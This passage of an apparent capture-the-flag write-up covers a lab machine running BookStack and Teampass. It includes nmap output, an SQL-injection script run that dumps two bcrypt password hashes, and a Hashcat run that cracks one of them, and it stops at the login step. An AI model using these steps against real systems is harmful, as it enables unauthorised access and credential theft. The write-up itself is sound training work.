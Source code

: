 ## Reconnaissance
From our nmap scan we see three ports are open: 22, 80, 8080.

```
# Nmap 7.94SVN scan initiated Sat Feb 22 21:10:38 2025 as: nmap -v -sCV -oN checker.nmap 10.129.147.247
Nmap scan report for 10.129.147.247
Host is up (0.014s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 aa:54:07:41:98:b8:11:b0:78:45:f1:ca:8c:5a:94:2e (ECDSA)
|_  256 8f:2b:f3:22:1e:74:3b:ee:8b:40:17:6c:6c:b1:93:9c (ED25519)
80/tcp   open  http    Apache httpd
|_http-title: 403 Forbidden
|_http-server-header: Apache
8080/tcp open  http    Apache httpd
|_http-title: 403 Forbidden
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Foothold
The main website on port 80 redirects to `checker.htb` that makes use of BookStack, a simple, self-hosted, easy-to-use platform for organising and storing information.

On port 8080, a Teampass instance is running. Since we don't have any credentials yet, we start searching online for disclosed vulnerabilities. Searching for teampass on `https://security.sneak.io` shows several results, one of which is an [SQL injection vulnerability](https://security.snyk.io/vuln/SNYK-PHP-NILSTEAMPASSNETTEAMPASS-3367612) that allows us to retrieve two users from the Teampass database.

```console
s3rpent@OMEN:~$ ./teampass_sqli.sh checker.htb:8080
There are 2 users in the system:
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

Only Bob's password is crackable with Hashcat.

```console
s3rpent@OMEN:~$ hashcat -m 3200 bob.hash $ROCKYOU
bob:cheerleader
```

## User
### Teampass

We can login to the Teampass instance by changing the time and using the credentials on `checker.htb:8080` that we found earlier. One of the buttons redirects us to `vault.checker.htb` so we can also add this to our `/etc/hosts` file. Clicking on the Password tab, we see two items for our user.
